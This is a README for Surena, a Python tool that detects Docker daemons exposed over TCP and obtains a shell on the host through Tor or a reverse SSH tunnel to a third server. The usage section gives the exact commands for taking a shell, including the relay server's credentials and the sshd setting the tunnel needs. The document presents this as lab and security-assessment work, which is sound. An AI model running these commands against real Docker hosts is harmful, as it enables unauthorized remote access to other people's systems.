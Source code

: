 # Surena

Surena is a tool developed to assess vulnerabilities in Docker daemons when their ports are exposed to a TCP network. It is developed using Click, a Python CLI library, and the Docker SDK for Python. Surena demonstrates how a hacker can gain shell access from an insecure Docker host using two methods: Tor Network and SSH Reverse Tunneling. To understand more about how Surena works and how to use these methods, please refer to our Medium article: [article](https://medium.com/@norouzzadegan/69628c4be503). The name Surena is derived from a Parthian(Iranian) spahbed from the first century BC. For further information, you can visit the [Wikipedia](https://en.wikipedia.org/wiki/Surena) page on Surena.

## Installation

Surena can be installed from PyPI by running:

```bash
pip install surena
```

Once installed, Surena can be run using the following commands in your terminal. To view available commands and options, use:

```bash
surena --help
```

## Using
Surena offers two commands: `is-docker-host` and `get-docker-host`. The `is-docker-host` command checks if the Docker daemon's port is accessible from the network. To understand its options, run:

```bash
surena is-docker-host --help
```

For example, execute the command with these options:

```bash
surena is-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT
```

The `get-docker-host` command is used to gain shell access from the Docker daemon using two methods. To understand its options, run:

```bash
surena get-docker-host --help
```
Please note, if Surena can gain shell access from the Docker host, it will create a text file named "WARNING.surena" in the "/root/" path of the Docker host.
For example, to gain shell access using the Tor Network method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method tor
```

To gain shell access using the Reverse SSH Tunneling method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method reverse-ssh --ssh-server-address $THIRD_SERVER_IP --ssh-server-username $THIRD_SERVER_USERNAME --ssh-server-password $THIRD_SERVER_PASSWORD --ssh-server-port $THIRD_SERVER_SSH_PORT
```

Please note that in the remote SSH server or in the `THIRD_SERVER_IP`, which has already been mentioned, the "GatewayPorts" configuration in the `sshd_config` file located at `/etc/ssh/sshd_config` should be changed from `GatewayPorts no` to either `GatewayPorts clientspecified` or `GatewayPorts yes` to enable it.

Additionally, ensure to replace `$DOCKER_HOST_IP`, `$DOCKER_HOST_PORT`, `$THIRD_SERVER_IP`, `$THIRD_SERVER_USERNAME`, `$THIRD_SERVER_PASSWORD`, and `$THIRD_SERVER_SSH_PORT` with the appropriate values.


## Warning
Surena is intended for lab use and to help you understand whether your Docker daemon is secure or insecure. **PLEASE DO NOT USE SURENA FOR MALICIOUS ACTIVITIES.**

## Donate
If Surena has helped you secure your infrastructure, particularly those utilizing Docker daemons over the network, we would be grateful if you could consider supporting us by donating Dogecoin or Tether. 

Dogecoin: `DRizEG8R6wW2cW5MNEAnERMMEMq6wupQMA`

USDT (TRC20): `TXcb1yTW71QZhqVEFx3Y1JGZVu384Mt17B`
